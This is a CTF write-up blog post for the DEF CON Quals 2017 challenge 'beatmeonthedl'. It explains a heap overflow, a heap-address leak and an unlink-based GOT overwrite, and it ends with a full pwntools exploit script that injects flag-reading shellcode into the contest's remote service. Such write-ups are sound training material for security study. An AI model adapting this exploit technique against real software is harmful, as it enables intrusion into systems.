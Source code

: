 ```yaml
---
layout: post
title: "DEF CON Quals 2017: beatmeonthedl"
category: Security
date: 2017-04-30
tags:
  - CTF
  - DEF CON
  - Writeup
---
```


I played in the DEF CON quals CTF this weekend, and happened to find the
challenge `beatmeonthedl` particularly interesting, even if it was in the
"Baby's First" category.  (DC Quals Baby's Firsts aren't as easy as one might
think...)

So we download the binary and take a look.  I'm using
[Binary Ninja](https://binary.ninja) lately, it's a great tool from the Vector35
guys, and at the right price compared to IDA for playing CTF.  :)  So I open up
the binary, and notice a few things right away.  This is an x86-64 ELF binary
with essentially none of the standard security features enabled:

~~~
% checksec beatmeonthedl
[+] 'beatmeonthedl'
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
~~~

Easy mode, right?

We'll, let's look at the binary and see if we can find a vulnerability.  Looking
at the binary, we can see it's a pretty typical CTF binary, we can create,
modify, delete, and print some notes.  This has been seen many times in various
forms.

At the beginning there's a little twist, it prompts you for a username
and password.  It's not hard to figure out what these should be, just take a
look at the functions `checkuser` and `checkpass`.  In `checkuser` you can see
that the username should be `mcfly`.  In `checkpass`, it's interesting that the
function copies the user input to an allocated buffer on the heap before
checking the password, and all it checks is that it beings with the string
`awesnap`.  The memory chunk is not freed before continuing, and in fact, if you
fail the login check, you will repeatedly get checks that allow you to continue
writing to segments on the heap.  The copies are correctly bounds-checked, so
there's no memory corruption here.  I'm not sure what the point of copying to
the heap is, as I didn't need it to solve the level.

Let's take a look at the `add_request` function that creates the new request
entries.  Looking through it, we see it allocates a chunk for the request entry
and then reads your request into the allocated chunk.  It took me a moment to
notice that there's something strange about the malloc and the respective read
of the request, but I've highlighted the relevant lines for your ease.

![malloc and read for new requests](/img/blog/dcq-2017/beatmeonthedl_addrequest.png)

Yep, it allocates `0x38` bytes and then reads `0x80` bytes into it.  Well, that
seems opportune, depending on what's past the chunk I'm reading into.  It
doesn't appear that his has any function pointers or vtable pointers (it appears
to be pure C), so nothing like that to overwrite.  Heap metadata corruption is a
thing of the past, right?  Well, if you notice that `malloc` is in blue and
other functions (`printf`, `read`) are in orange, you might realize something.
The malloc implementation being used by this binary is compiled into the
program.  A quick test does, in fact, show that this version of malloc does not
appear to use any validation checks on the heap metadata:

~~~
pwndbg> x/i $rip
=> 0x40656c <free+1096>:	mov    rax,QWORD PTR [rax+0x8]
pwndbg> i r rax
rax            0x41414141425e51a0	0x41414141425e51a0
~~~

So it seems like we can use the `unlink` technique described by [Solar
Designer](http://www.openwall.com/articles/JPEG-COM-Marker-Vulnerability) in
2000 to exploit heap metadata corruption via `free`.  If you're not familiar
with the technique, there's a more digestable version
[here](https://gbmaster.wordpress.com/2014/08/11/x86-exploitation-101-heap-overflows-unlink-me-would-you-please/).
This technique allows you to write one pointer-sized value at one address of
your choosing.  (Obviously, if you want to try to write more than one, you can
sometimes repeat the technique if the circumstances allow.)
Basically, you want to allocate two consecutive blocks, overflow the first into
the second in such a way that the 2nd meets some special properties, and then
free the first chunk, causing the malloc implementation to attempt to coalesce
the two free blocks into a bigger block and `unlink` the old "free" block.  Our
crafted block must:

- Have zero size
- Appear to be free (has the `IN_USE` bit cleared)
- Appear as part of a linked list where the first pointer goes to your target address
  minus one pointer width (e.g., target-8 on x86-64).
- Appear as part of a linked list where the second pointer is the value you want to
  write.

So if we know what we're going to do, we should be done, right?  Well, it's not
quite that simple -- we still need to know what we're going to write, and where
we're going to write it.

A common technique for this is to overwrite a pointer in the Global Offset Table
(GOT).  If you're not familiar with the GOT, I've previously written about
[using the GOT and PLT for
exploitation](/2017/03/19/got-and-plt-for-pwning.html).
Since there is no RELRO (Read-Only Relocations) on this binary, we can apply
this technique here in a straightforward fashion.  We can overwrite any function
that will be called after the `free` occurs.  For this binary, we can use any of
several functions, but both `puts` and `printf` are excellent choices since
they're called in fairly short order (by printing the menu the next time).

So *what* do we write?  Well, we want to point to some shellcode.  But where is
our shellcode?  Since there's not many places to put things on the stack and no
globals, I guess it'll have to be the heap.  We do have ASLR to contend with, so
we need a leak of a heap address.  It took me a while to realize how we could
get this, but then I hit upon it: by creating fragmentation within the heap, the
malloc implementation will have placed pointers for the circular linked list of
free blocks into the free blocks themselves.  Then overflowing an adjacent block
right up to the pointer, and printing the requests, we can get the value of the
pointer.  From that, we can round down to the start of the page and get the
beginning of the heap area.

Finally, we just need to place some shellcode in one of our blocks.  Note that
many (all?) of the DEF CON Quals challenges ran in a seccomp sandbox that
blocked the ability to use `execve`, so we'll have to use a `open/read/write`
shellcode.

Putting it all together (sorry, it's a bit sloppy, didn't have time to clean it
up yet):

~~~
import pwn
from pwnlib.shellcraft import amd64

pwn.context.binary = './beatmeonthedl'

PAD = 'A'*48 + 'B'*8
CHUNK_SIZE = pwn.p64(0)
TARGET_ADDR = 0x609970 # printf@got
TARGET_ADDR_CHUNK = pwn.p64(TARGET_ADDR-24)

proc = None
#proc = pwn.process('./beatmeonthedl')
proc = proc or pwn.remote(
        'beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me',
        6969)

def login():
    proc.recvuntil('username: ')
    proc.sendline('mcfly')
    proc.recvuntil('Pass: ')
    proc.sendline('awesnap')

def menu(n):
    proc.recvuntil('| ')
    proc.sendline(str(n))

pwn.log.info('Login')
login()

pwn.log.info('Create')
for _ in xrange(4):
    menu(1)
    proc.recv()
    proc.sendline('foo')

pwn.log.info('Leak')
menu(3)
proc.recv()
proc.sendline(str(2))
menu(3)
proc.recv()
proc.sendline(str(0))
# alter 1
menu(4)
proc.recv()
proc.sendline(str(1))
proc.recv()
proc.send('Q'*72)
menu(2)
res = proc.recvuntil('3)')
res = res[72+3:-3]
slot_0 = pwn.u64(res+('\0'*(8-len(res))))
print 'Slot 0 probably: {:#08x}'.format(slot_0)

pwn.log.info('Setup chunk')
# reallocate 0
menu(1)
proc.recv()
proc.send('AAAA')

# shellcode in 3
menu(4)
proc.recv()
proc.send(str(3))
proc.recv()
shellcode = '\xeb\x20' + ('\x90'*32)
shellcode += pwn.asm(amd64.cat('flag'))
proc.send(shellcode)

# edit 0 with overwrite
menu(4)
proc.recv()
proc.send(str(0))
proc.recv()
val = (PAD+CHUNK_SIZE+TARGET_ADDR_CHUNK)
target = slot_0+16 + 3*0x40  # target slot 3
print 'Target addr: {:#08x}'.format(target)
val += pwn.p64(target)
proc.send(val)

pwn.log.info('Overwrite')
# trigger free of previous chunk to cause coalescing
menu(3)
proc.recv()
proc.sendline(str(0))

proc.interactive()

pwn.log.info('Exit')
# exit
menu(5)
~~~
